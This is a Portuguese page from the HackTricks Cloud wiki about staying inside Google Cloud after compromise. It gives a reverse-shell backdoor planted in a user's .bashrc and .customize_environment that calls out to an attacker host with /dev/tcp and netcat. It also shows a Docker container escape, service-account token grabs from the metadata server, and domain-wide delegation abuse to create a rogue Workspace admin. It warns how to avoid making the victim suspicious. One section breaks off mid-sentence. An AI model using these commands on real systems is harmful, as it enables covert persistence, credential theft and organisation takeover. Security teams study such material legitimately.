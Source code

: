 # GCP - Persistência não-svc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) **e** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repositórios do github.**

</details>

Essas são técnicas úteis quando, de alguma forma, você comprometeu algumas credenciais GCP ou uma máquina em execução em um ambiente GCP.

## Google’s Cloud Shell <a href="#e5eb" id="e5eb"></a>

### Backdoor Persistente

O [**Google Cloud Shell**](https://cloud.google.com/shell/) fornece acesso à linha de comando aos seus recursos em nuvem diretamente do seu navegador sem nenhum custo associado.

Você pode acessar o Cloud Shell do Google a partir do **console da web** ou executando **`gcloud cloud-shell ssh`**.

Essa console tem algumas capacidades interessantes para atacantes:

1. **Qualquer usuário do Google com acesso ao Google Cloud** tem acesso a uma instância do Cloud Shell totalmente autenticada.
2. Essa instância **manterá seu diretório home por pelo menos 120 dias** se nenhuma atividade ocorrer.
3. Não há **capacidades para uma organização monitorar** a atividade dessa instância.

Isso basicamente significa que um atacante pode colocar uma backdoor no diretório home do usuário e, desde que o usuário se conecte ao GC Shell a cada 120 dias pelo menos, a backdoor sobreviverá e o atacante obterá um shell sempre que for executado apenas fazendo:

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```

Há outro arquivo na pasta home chamado **`.customize_environment`** que, se existir, será **executado toda vez** que o usuário acessar o **cloud shell** (como na técnica anterior). Basta inserir a backdoor anterior ou uma como a seguinte para manter a persistência enquanto o usuário usa "frequentemente" o cloud shell:

```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```

{% hint style="warning" %}
Observe que a **primeira vez que uma ação é executada no Cloud Shell que requer autenticação**, ele **aparece** uma janela de autorização no navegador do usuário que deve ser aceita antes que o comando seja executado. Se uma janela pop-up inesperada aparecer, o alvo pode ficar suspeito e queimar o método de persistência.
{% endhint %}

### Escape de Container do Google Cloud Shell

Observe que o Google Cloud Shell é executado dentro de um contêiner, você pode **escapar facilmente para o host** fazendo:

```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```

Isso não é considerado uma vulnerabilidade pelo Google, mas dá uma visão mais ampla do que está acontecendo nesse ambiente.

Além disso, observe que a partir do host, você pode encontrar um token de conta de serviço:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```

Com os seguintes escopos:

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```

## Sequestro de Token

### Usuário Autenticado

Se você conseguir acessar a pasta home de um **usuário autenticado no GCP**, por **padrão**, você poderá **obter tokens para esse usuário enquanto quiser** sem precisar autenticar e independentemente da máquina que você use seus tokens e mesmo se o usuário tiver MFA configurado.

Is
## Espalhando para o Workspace via delegação de autoridade em todo o domínio <a href="#spreading-to-g-suite-via-domain-wide-delegation-of-authority" id="spreading-to-g-suite-via-domain-wide-delegation-of-authority"></a>

[**Workspace**](https://gsuite.google.com) é a plataforma de colaboração e produtividade do Google, que consiste em coisas como Gmail, Google Calendar, Google Drive, Google Docs, etc.

As **contas de serviço** no GCP podem receber os **direitos de acesso programático aos dados do usuário** no Workspace, por meio da representação de usuários legítimos. Isso é conhecido como [delegação em todo o domínio](https://developers.google.com/admin-sdk/reports/v1/guides/delegation). Isso inclui ações como **ler** **e-mails** no GMail, acessar o Google Docs e até criar novas contas de usuário na organização G Suite.

O Workspace tem [sua própria API](https://developers.google.com/gsuite/aspects/apis), completamente separada do GCP. As permissões são concedidas ao Workspace e **não há nenhuma relação padrão entre o GCP e o Workspace**.

No entanto, é possível **dar** a uma conta de serviço **permissões** sobre um usuário do Workspace. Se você tiver acesso à interface da Web neste ponto, poderá navegar até **IAM -> Contas de serviço** e ver se alguma das contas tem **"Habilitado" listado na coluna "delegação em todo o domínio"**. A coluna em si pode **não aparecer se nenhuma conta estiver habilitada** (você pode ler os detalhes de cada conta de serviço para confirmar isso). No momento em que este texto foi escrito, não há como fazer isso programaticamente, embora haja uma [solicitação para essa funcionalidade](https://issuetracker.google.com/issues/116182848) no rastreador de bugs do Google.

Para criar essa relação, é necessário **ativá-la no GCP e também no Workforce**.

#### Testando o acesso ao Workspace

Para testar esse acesso, você precisará das **credenciais da conta de serviço exportadas em formato JSON**. Você pode ter adquirido essas informações em uma etapa anterior ou pode ter o acesso necessário agora para criar uma chave para uma conta de serviço que você sabe ter a delegação em todo o domínio habilitada.

Este tópico é um pouco complicado... sua conta de serviço tem algo chamado "client\_email", que você pode ver no arquivo de credenciais JSON que exportou. Provavelmente parece algo como `account-name@project-name.iam.gserviceaccount.com`. Se você tentar acessar chamadas da API do Workforce diretamente com esse e-mail da conta, mesmo com a delegação habilitada, você falhará. Isso ocorre porque o diretório do Workforce não incluirá os endereços de e-mail das contas de serviço do GCP. Em vez disso, para interagir com o Workforce, precisamos realmente representar usuários válidos do Workforce.

O que você realmente quer fazer é **representar um usuário com acesso administrativo** e, em seguida, usar esse acesso para fazer algo como **redefinir uma senha, desativar a autenticação multifator ou apenas criar uma nova conta de administrador**.

O Gitlab criou [este script Python](https://gitlab.com/gitlab-com/gl-security/gl-redteam/gcp\_misc/blob/master/gcp\_delegation.py) que pode fazer duas coisas - listar o diretório do usuário e criar uma nova conta administrativa. Aqui está como você usaria:

```bash
# Validar apenas o acesso
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# Listar o diretório
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Criar uma nova conta de administrador
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

Você pode experimentar este script em uma variedade de endereços de e-mail para representar **vários usuários**. A saída padrão indicará se a conta de serviço tem acesso ao Workforce e incluirá uma **senha aleatória para a nova conta de administrador** se uma for criada.

Se você tiver sucesso na criação de uma nova conta de administrador, poderá fazer login no [console de administração do Google](https://admin.google.com) e ter controle total sobre tudo no G Suite para cada usuário - e-mail, documentos, calendário, etc. Divirta-se.

## Referências

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>